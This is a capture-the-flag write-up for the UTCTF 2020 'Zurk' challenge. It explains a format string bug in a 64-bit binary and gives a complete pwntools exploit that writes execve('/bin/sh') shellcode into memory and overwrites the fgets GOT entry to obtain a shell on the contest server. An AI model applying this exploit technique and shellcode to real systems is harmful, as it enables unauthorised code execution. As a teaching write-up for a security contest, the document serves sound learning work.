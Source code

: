 ```yaml
---
layout: post
title: UTCTF 2020 | Zurk Writeup
author: adamt
---
```


My writeup of the Zurk binary challenge.

# Challenge Desc

Zurk was a binary exploitation challenge in UTCTF 2020 which was a 64 bit format string where the attacker controlled a buffer of isze 50 with a call to fgets() passed directly to printf().

The binary had NX disabled and no PIE. However ASLR was enabled.

```c
checksec ./zurk

Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX disabled
PIE:      No PIE (0x400000)
RWX:      Has RWX segments
```

I wanted a challenge! So I wanted to give myself a handicap.

The handicap I gave myself was that I didn't want any NULL bytes in my payload. I solved this by leveraging the newline deletion to put NULL bytes in the write place in my buffer.

# Thoughts

There are 2 main thoughts to solve this challenge.

1. Overwrite a GOT address to point to system in libc
   a. This is going to be a problem, as our buffer is really small, if we were to write 2 bytes at a time, we would need 4*8=32 characters just for our addresses alone, meaning just 18 characters to do 4 writes with a format string.
2. Overwrite a GOT address to point to our own shellcode in the data region of the binary
   a. This is nicer because we can write out the shellcode over mutliple seperate writes
   b. Since PIE is disabled, the data region starts at 0x600100, this means we only need to write a 4byte address to the GOT, which is half the size of our previous option. We can probably fit this into our buffer as well.

## How do we get addresses into our buffer

So we can't just write addresses into our buffer, because of this whole NULL byte thingo. But reading through the dissassembly of the program, there is this interesting codepath.

```c
mov rdi, buffer
mov rsi, '\n'
call strcspn
mov [ret], 0x0
```

This is replacing the new line in our string with a null byte. We can use this to NULL out the entire buffer by.

1. Write a string of length buffer_size, the last value in our buffer gets set to NULL
2. Write a string of length buffer_size - 1, the second last value is set to NULL
3. continue

Sample code:
```python
 for i in range(0x30, 1, -1):
     send("A" * i)
```

After we do this, we can write our address (since it only has leading NULL bytes).

# Solution

```python
#!/usr/bin/python3
from pwn import *

PROGNAME   = "./zurk"
REMOTEIP   = "binary.utctf.live"
REMOTEPORT = 9003

# execve(/bin/sh)
SHELLCODE = ["\x31\xF6\x56\x48", "\xBB\x2F\x62\x69",
        "\x6E\x2F\x2F\x73", "\x68\x53\x54\x5F",
        "\xF7\xEE\xB0\x3B", "\x0F\x05\x00\x00"]


libc = ELF("./libc-2.23.so")
p = remote(REMOTEIP, REMOTEPORT)
elf = ELF(PROGNAME)

def talk(msg):
    p.sendlineafter("What would you like to do?\n", msg)

    until = " is not a valid instruction.\n"
    return p.recvuntil(until)[:-len(until)]

def leak_addr(addr):
    payload = b"%7$s".ljust(8, b' ')
    leak = talk(payload + p64(addr))

    # Get ride of spaces :P
    leak = leak.replace(b' ', b'\x00')[:8]
    leak = leak.rjust(8, b'\x00')

    return u64(leak)

# In order to write null bytes, we take advantage
# of the program replacing newlines with NULLs
def clear_stack():
    for i in range(0x30, 1, -1):
        print(".", end='')
        talk("A" * i)
    print("")

def do_write_4_bytes(addr, value):
    log.info(f"Writing {hex(value)} -> {hex(addr)}")
    clear_stack()

    value_h = value & 0xFFFFFFFF
    value_h1 = value_h >> 16
    value_h2 = value_h & 0xFFFF

    talk(p64(addr).rjust(48, b' '))
    talk(p64(addr + 2).rjust(32, b' ')) + b'a'

    payload = f"%{value_h1}c%9$hn"
    talk(payload)
    payload = f"%{value_h2}c%11$hn"
    talk(payload)

def do_write_8_bytes(addr, value):
    log.info(f"Writing {hex(value)} -> {hex(addr)}")
    clear_stack()


    talk(p64(addr).rjust(48, b' '))
    talk(p64(addr + 4).rjust(32, b' ')) + b'a'

    payload = f"%9$n%{value}c%11$n"
    talk(payload)



# put our shellcode at 0x601500
ADDR = 0x60110B  # Dont start at 00, we dont want 0x0a in our addr
do_write_4_bytes(ADDR + 4, u32(SHELLCODE[1]))
do_write_4_bytes(ADDR + 8, u32(SHELLCODE[2]))
do_write_4_bytes(ADDR + 12, u32(SHELLCODE[3]))
do_write_4_bytes(ADDR + 16, u32(SHELLCODE[4]))
do_write_4_bytes(ADDR + 20, u32(SHELLCODE[5]))
do_write_4_bytes(ADDR, u32(SHELLCODE[0]))

do_write_8_bytes(elf.got["fgets"], ADDR)

p.interactive()

```
